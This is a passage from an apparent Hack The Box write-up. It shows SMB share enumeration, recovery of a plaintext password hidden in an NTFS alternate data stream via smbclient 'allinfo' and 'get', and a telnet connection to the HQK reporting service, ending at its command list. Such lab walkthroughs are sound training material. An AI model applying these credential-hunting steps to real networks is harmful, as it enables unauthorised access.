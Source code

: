 In the C.Smith directory we find some files that we can download as well. But checking the debug password text file we see that it has 0 bytes.

```shell
smb: \C.Smith\HQK reporting\> ls
  .                                   D        0  Fri Aug  9 02:06:17 2019
  ..                                  D        0  Fri Aug  9 02:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 15:18:42 2019
  Debug Mode Password.txt             A        0  Fri Aug  9 02:08:17 2019
  HQK_Config_Backup.xml               A      249  Fri Aug  9 02:09:05 2019
```

But based on another box from hack the box I recall that there was a specific box that did the same with a root flag. So we might need to check this file deeper. Checking the Debug password text file using `allinfo` we initially find that the file 15 bytes in password.
```shell
smb: \C.Smith\HQK reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Fri Aug  9 02:06:12 2019 EAT
access_time:    Fri Aug  9 02:06:12 2019 EAT
write_time:     Fri Aug  9 02:08:17 2019 EAT
change_time:    Wed Jul 21 21:47:12 2021 EAT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes

```

We can then download this file using.
```shell
smb: \C.Smith\HQK reporting\> get "Debug Mode Password.txt:Password"
getting file \C.Smith\HQK reporting\Debug Mode Password.txt:Password of size 15 as Debug Mode Password.txt:Password (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \C.Smith
```

We do actually get a password now. 
```shell
cat Debug\ Mode\ Password.txt:Password                              
WBQ201953D8w 
```

### HQK service tool 

From here we can revisit the HQK reporting service tool. Where we can use telnet to get a connection. we can also add a `rlwrap` which runs the specified _command_, intercepting user input in order to provide `readline's` line editing, persistent history and completion.
```shell
rlwrap telnet 10.10.10.178 4386                                                                                                                    
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>HELP

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
```